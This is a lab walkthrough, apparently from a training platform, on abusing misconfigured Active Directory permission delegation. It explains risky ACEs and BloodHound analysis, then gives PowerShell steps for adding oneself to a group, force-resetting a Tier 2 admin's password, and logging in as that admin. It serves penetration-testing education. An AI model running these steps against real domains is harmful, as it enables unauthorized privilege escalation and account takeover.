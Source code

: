 # Exploiting Permission Delegation in Active Directory

Active Directory (AD) can delegate permissions and privileges through a feature called **Permission Delegation** (not to be confused with Kerberos Delegation, which will be discussed later). Delegation is what makes AD so powerful in large organizations. For example, in a company with 50,000 employees, only a few users might have Domain Admin (DA) credentials. Handling all user requests, such as password resets, would be impossible for just those users. With Delegation, specific permissions (like resetting passwords) can be assigned to groups such as the Helpdesk team. To keep Delegation secure, the principle of least privilege should be followed, but this is challenging in large environments. This section explores how misconfigurations in Delegation can be exploited.

---

## Permission Delegation and ACL-Based Attacks

Permission Delegation exploits are often called **ACL-based attacks**. AD administrators can configure **Access Control Entries (ACEs)**, which populate **Discretionary Access Control Lists (DACLs)**. These ACEs define allowed and denied permissions for AD objects.

If ACEs are misconfigured, attackers can exploit them. For example, if the IT Support team is granted the `ForceChangePassword` ACE over the Domain Users group, they could reset passwords for privileged accounts, leading to privilege escalation.

---

## Common Exploitable ACEs

A variety of ACEs can be misconfigured. Some notable ones include:

- **ForceChangePassword**: Set a user's password without knowing the current one.
- **AddMembers**: Add users, groups, or computers to a target group.
- **GenericAll**: Full control over the object (change password, register SPN, add objects, etc.).
- **GenericWrite**: Update any non-protected parameters (e.g., `scriptPath`).
- **WriteOwner**: Change the owner of the object, gaining additional permissions.
- **WriteDACL**: Write new ACEs to the object's DACL (e.g., grant full control).
- **AllExtendedRights**: Perform any action associated with extended AD rights (e.g., force password change).

To exploit these ACEs, tools like **AD-RSAT PowerShell cmdlets** or **PowerSploit** are commonly used. The choice depends on the breach and detection tools in the environment.

---

## Using Bloodhound

**Sharphound** has already been executed and the data is provided. To analyze it:

1. Start Neo4j:
    ```bash
    neo4j console start
    ```
2. In another terminal, run Bloodhound:
    ```bash
    bloodhound --no-sandbox
    ```
3. Login to Bloodhound (default Neo4j credentials: `neo4j:neo4j`).
4. Drag and drop the provided ZIP files into Bloodhound to ingest the data.

Once ingested, you can enumerate attack paths.

---

## Privilege Escalation Example

Suppose your user account (from Task 1) has limited permissions—only RDP access to `THMWRK1` (low privilege). The goal is to escalate privileges by compromising the **Tier 2 Admins** group, which has admin rights on all workstations.

### Attack Path Discovery

Bloodhound may reveal that:

- The **IT Support** group has been misconfigured, granting the **Domain Users** group the `AddMembers` ACE.
- The **IT Support** group has the `ForceChangePassword` ACE over the **Tier 2 Admins** group.

This chain allows privilege escalation.

---

## Step 1: Add Yourself to IT Support

Use the `Add-ADGroupMember` PowerShell cmdlet:

```powershell
Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
```

Verify membership:

```powershell
Get-ADGroupMember -Identity "IT Support"
```

---

## Step 2: Identify Tier 2 Admins

List members of the Tier 2 Admins group:

```powershell
Get-ADGroupMember -Identity "Tier 2 Admins"
```

Note a username to target.

---

## Step 3: Force Change a Tier 2 Admin's Password

Set a new password for the target account:

```powershell
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
```

> **Note:** If you get an Access Denied error, permissions may not have propagated. Wait up to 10 minutes, or run `gpupdate /force` and reconnect.

---

## Step 4: Authenticate as Tier 2 Admin

You can now authenticate to `THMWRK1` using the target account and new password. You have escalated privileges to Tier 2 Administrator by exploiting Permission Delegations.

---